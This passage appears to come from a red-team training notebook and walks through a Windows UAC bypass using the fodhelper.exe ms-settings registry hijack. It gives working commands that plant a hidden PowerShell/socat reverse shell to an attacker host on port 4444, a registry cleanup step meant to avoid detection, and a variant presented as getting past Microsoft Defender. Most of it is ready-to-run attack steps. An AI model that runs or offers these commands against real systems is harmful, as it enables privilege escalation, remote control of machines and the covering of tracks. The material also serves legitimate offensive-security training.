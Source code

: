 ```C
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
```

Notice how we need to create an empty value called **DelegateExecute** for the class association to take effect. If this registry value is not present, the operating system will ignore the command and use the system-wide class association instead.

At the same command prompt window execute `fodhelper.exe` then back at the attacker machine check your netcat:

![Bypassing UAC-12.png](/img/user/cards/red-team/images/Bypassing%20UAC-12.png)

### Clearing our Tracks
---
As a result of executing this exploit, some artefacts were created on the target system in the form of registry keys. To avoid detection, we need to clean up after ourselves with the following command:

```C
reg delete HKCU\Software\Classes\ms-settings\ /f
```

## But Wait - There is MS Defender - Fodhelper exploit won't work
---
Doing the same exploit again: Just as you change the `(default)` value in `HKCU\Software\Classes\ms-settings\Shell\Open\command` to insert your reverse shell command, a Windows Defender notification will pop up:

![Bypassing UAC-13.png](/img/user/cards/red-team/images/Bypassing%20UAC-13.png)

Clicking the notification:

![Bypassing UAC-14.png|450](/img/user/cards/red-team/images/Bypassing%20UAC-14.png)

But the good thing is with a slight modification it will work:

```C
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

reg add %REG_KEY% /v "DelegateExecute" /d "" /f

reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY%
```
